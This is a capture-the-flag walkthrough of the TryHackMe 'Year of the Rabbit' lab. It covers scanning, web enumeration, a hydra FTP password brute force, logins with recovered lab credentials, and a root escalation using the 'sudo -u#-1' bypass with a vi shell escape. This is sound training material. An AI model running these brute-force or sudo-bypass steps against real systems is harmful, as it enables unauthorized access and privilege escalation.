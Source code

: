 # Year of the Rabbit

**Room Link:** [https://tryhackme.com/room/yearoftherabbit](https://tryhackme.com/room/yearoftherabbit)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (25) (6).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (30) (1).png" alt=""><figcaption></figcaption></figure>

### Turn off Javascript

```
Enter about:config into the search bar and select Accept the Risk and Continue.
Enter javascript.enabled into the search box at the top of the page.
Select the javascript.enabled toggle to change the value to false.
```

<figure><img src="../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
strings Hot_Babe.png 
```

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l ftpuser -P passwords.txt ftp://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

## FTP

**Kali**

```
ftp $VICTIM
password: 5iez1wGXKfPKQ
```

<figure><img src="../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Elis creds is encoded with something called Brain fuck. There are tools online to decode it.

**Link:** [https://www.dcode.fr/brainfuck-language](https://www.dcode.fr/brainfuck-language)

<figure><img src="../../.gitbook/assets/image (10) (7).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh eli@$VICTIM
Password: DSpDiM1wAEwid
```

<figure><img src="../../.gitbook/assets/image (13) (4).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
locate s3cr3t
cat cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
```

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su gwendoline
Password: MniVCQVhQHUNI
```

<figure><img src="../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

## **Privilege escalation**

Mostly followed the link below, we can't run sudo with root as we have (ALL , !root) here. if we had (ALL , ALL) it would be easy to escalate. Adding sudo -u#-1  to infront of the command allows us to bypass this.

**Link:** [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**Victim**

```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
#While vi is open run:
:!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>
























